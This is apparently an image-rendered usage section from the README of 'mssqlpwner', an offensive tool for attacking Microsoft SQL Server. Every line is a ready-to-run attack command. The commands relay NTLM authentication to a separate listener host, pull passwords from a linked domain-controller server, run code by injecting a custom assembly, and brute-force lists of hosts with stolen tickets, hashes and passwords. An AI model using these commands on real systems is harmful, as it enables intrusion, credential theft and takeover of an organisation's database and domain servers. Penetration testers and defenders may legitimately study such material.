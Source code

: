 ```shell
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250

# Executing direct query
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth direct-query "SELECT CURRENT_USER"

# Retrieving password from the linked server DC01
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 retrive-password

# Execute code using custom assembly on the linked server DC01
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 inject-custom-asm SqlInject.dll

# Bruteforce using tickets, hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using tickets against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt

# Bruteforce using passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -pl passwords.txt

# Bruteforce using hashes against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt

```

